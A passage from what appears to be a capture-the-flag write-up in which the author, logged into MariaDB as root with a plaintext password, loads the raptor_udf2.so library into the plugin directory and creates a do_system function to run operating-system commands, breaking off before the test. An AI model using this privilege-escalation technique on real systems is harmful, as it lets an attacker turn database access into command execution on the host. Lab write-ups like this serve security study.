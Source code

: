 I’ll connect to MySQL as root, not as DB_user (that user lacks privs), and
using the `mysql` db:

    
    
    svc@noter:/dev/shm$ mysql -u root -pNildogg36 mysql
    Reading table information for completion of table and column names
    You can turn off this feature to get a quicker startup with -A
    
    Welcome to the MariaDB monitor.  Commands end with ; or \g.
    Your MariaDB connection id is 11402
    Server version: 10.3.34-MariaDB-0ubuntu0.20.04.1 Ubuntu 20.04
    
    Copyright (c) 2000, 2018, Oracle, MariaDB Corporation Ab and others.
    
    Type 'help;' or '\h' for help. Type '\c' to clear the current input statement.
    
    MariaDB [mysql]> 
    

I’ll create a `foo` table and read the binary into it:

    
    
    MariaDB [mysql]> create table foo(line blob);
    Query OK, 0 rows affected (0.007 sec)
    
    MariaDB [mysql]> insert into foo values(load_file('/dev/shm/raptor_udf2.so'));
    Query OK, 1 row affected (0.002 sec)
    

Next I need to know the plugins directory:

    
    
    MariaDB [mysql]> show variables like '%plugin%';
    +-----------------+---------------------------------------------+
    | Variable_name   | Value                                       |
    +-----------------+---------------------------------------------+
    | plugin_dir      | /usr/lib/x86_64-linux-gnu/mariadb19/plugin/ |
    | plugin_maturity | gamma                                       |
    +-----------------+---------------------------------------------+
    2 rows in set (0.001 sec)
    

I’ll write that binary out into the plugins directory above, and load it as a
user defined function:

    
    
    MariaDB [mysql]> select * from foo into dumpfile '/usr/lib/x86_64-linux-gnu/mariadb19/plugin/raptor_udf2.so'; 
    Query OK, 1 row affected (0.000 sec)
    MariaDB [mysql]> create function do_system returns integer soname 'raptor_udf2.so';
    Query OK, 0 rows affected (0.001 sec)
    

To test it, I’ll use the function to run `id` and write the result into a
file. I’ll make sure to change the perms on the file so I can read it:

    